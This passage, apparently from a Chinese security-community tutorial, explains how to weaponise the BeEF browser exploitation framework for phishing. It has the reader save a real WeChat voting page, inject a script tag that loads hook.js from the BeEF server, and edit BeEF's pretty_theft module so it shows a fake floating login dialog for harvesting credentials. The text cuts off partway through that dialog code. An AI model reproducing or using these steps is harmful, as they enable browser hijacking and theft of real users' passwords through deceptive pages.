 随机找到一个投票的页面，保存为html

    
    
    http://mp.weixin.qq.com/s?__biz=MzA3MTM0NTgyNw==&mid=400240804&idx=1&sn=d87655d4c67a8f39fc84b3cdcb4c1895&scene=1&srcid=1024yDcPJI2to0i3DmiVmj1L&from=groupmessage&isappinstalled=0#rd
    

**2、替换hook页面**

在`use/share/beef-xss/extensions/demos/html`目录下，将上述html文件命名为basic.html并添加以下代码

    
    
    var commandModuleStr = '<script src="' + window.location.protocol + '//' + window.location.host + '/hook.js" 
    type="text/javascript"><\/script>';
            document.write(commandModuleStr);
    

如图

![这里写图片描述](http://static.wooyun.org//drops/20151027/2015102707054442197.net/20151026193230131)

![这里写图片描述](http://static.wooyun.org//drops/20151027/2015102707054595128.net/20151026193237033)

上线页面已被修改

## 2、修改BeEFsocial_engineering模块

修改弹出对话框样式

将此文件use/share/beef-xss/modules/social_engineering/pretty_theft/command.js内容对应部分替换如下：

    
    
    // Facebook floating div
        function facebook() {
    
            sneakydiv = document.createElement('div');
            sneakydiv.setAttribute('id', 'popup');
            sneakydiv.setAttribute('style', 'position:absolute; top:30%; left:2%; z-index:51; background-
    
    color:ffffff;');
            document.body.appendChild(sneakydiv);
    
            // Set appearance using styles, maybe cleaner way to do this with CSS block?
            var windowborder = 'style="width:330px;background:white;border:10px #999999 solid;border-
    
    radius:8px"';
            var windowmain = 'style="border:1px #555 solid;"';
            var tbarstyle = 'style="color: rgb(255, 255, 255); background-color: rgb(255, 102, 0);font-size: 
    
    13px;font-family:tahoma,verdana,arial,sans-serif;font-weight: bold;padding: 5px;padding-left:8px;text-align: 
    
    left;height: 18px;"';
            var bbarstyle = 'style="color: rgb(0, 0, 0);background-color: rgb(242, 242, 242);padding: 
    
    8px;text-align: right;border-top: 1px solid rgb(198, 198, 198);height:28px;margin-top:10px;"';
            var messagestyle = 'style="align:left;font-size:11px;font-family:tahoma,verdana,arial,sans-
    